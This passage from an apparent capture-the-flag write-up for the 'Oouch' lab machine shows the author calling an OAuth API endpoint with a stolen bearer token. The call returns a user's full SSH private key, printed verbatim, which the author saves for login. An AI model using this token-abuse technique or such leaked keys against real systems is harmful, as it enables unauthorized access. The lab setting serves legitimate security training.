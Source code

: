 #### get\_ssh

Obviously this isn’t terribly useful information. I spent a while fuzzing for additional parameters that might return the other information entered into the signup form, the ssh key. Eventually, I tried hitting a different endpoint, `/api/get_ssh`:

```

root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer gm05wp2kDWhSmS3QrZmdEqgvFGoEKD" | jq .
{
  "ssh_server": "consumer.oouch.htb",
  "ssh_user": "qtc",
  "ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\n-----END OPENSSH PRIVATE KEY-----"
}

```

That’s an ssh key!

### SSH

I can save that key to a file (using `jq -r` to print the raw contents) :

```

root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer LBLemeQIcZZtSgPB0Ax54DpJ1h1vrF" | jq -r '.ssh_key' > id_rsa_oouch_qtc

```
